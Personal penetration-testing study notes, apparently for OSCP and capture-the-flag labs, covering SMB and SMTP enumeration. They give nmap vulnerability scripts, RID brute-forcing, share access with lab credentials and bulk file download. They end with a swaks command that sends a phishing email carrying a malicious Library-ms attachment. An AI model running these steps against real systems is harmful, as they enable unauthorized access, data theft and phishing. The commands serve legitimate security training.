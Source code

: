 ## SMB

### Linux
- We can use `nbtscan` to search for open NetBIOS 
```zsh
sudo nbtscan -r 192.168.50.0/24
```
- The option `-r` to use UDP port 137
- Available NSE Scripts can be listed using `ls` and then used as usual. We can use all vulnerability scripts with `--script=smb-vuln\*`
```zsh 
ls -1 /usr/share/nmap/scripts/smb* 

nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152

nmap -script=smb-vuln\* -p445 192.168.103.40
``` 
- We can try to enumerate users with `nxc` and option `--rid-brute`
```zsh
nxc smb certified.htb -u 'Guest' -p '' --rid-brute
```
#### smbclient
- If we have credentials for a share we can enumerate it using `smbclient`or mount it
```zsh
smbclient //192.168.231.248/Users -U domain/emma_wong --password="Butterfly04\!"

sudo mount -t cifs -o "username=emma_wong,password=Butterfly04\!" //192.168.231.248/transfer ./transfer
```
- To download all files from a share we can use `mget`
```zsh
mask ""
recurse on
prompt off #This will disable confirmation for each file
mget *
```
#### nxc
- If we have credentials for a share we can also use `nxc` to enumerate shares and download files 
```zsh
#Use netexec with the spider_plus module and option to download
nxc smb 192.168.140.159 -u 'Guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```
### Windows
- We can use `net view` to list shares on a host. By providing the `/all` flag, shares ending with the dollar sign also get shown
```zsh 
net view \\dc01 /all 
```

## SMTP 
- To check if a user exist, issue the `VRFY` command on an open SMTP session
- Checking the memberships of a mailing list can be done with `EXPN`
- If we have valid credentials, we can send an email using `swaks`
```zsh
swaks --from test@supermagicorg.com --to dave.wizard@supermagicorg.com,someone.else@supermagicorg.com --server 192.168.45.50 --port 587 --auth login --auth-user 'test@supermagicorg.com' --auth-password 'test' --header 'Subject: IT Action needed' --body "Hi Dave. Please open the attachement" --attach @/home/redo/Documents/oscp/exercises/ClientSideAttacks/WebDAV/config.Library-ms
```
  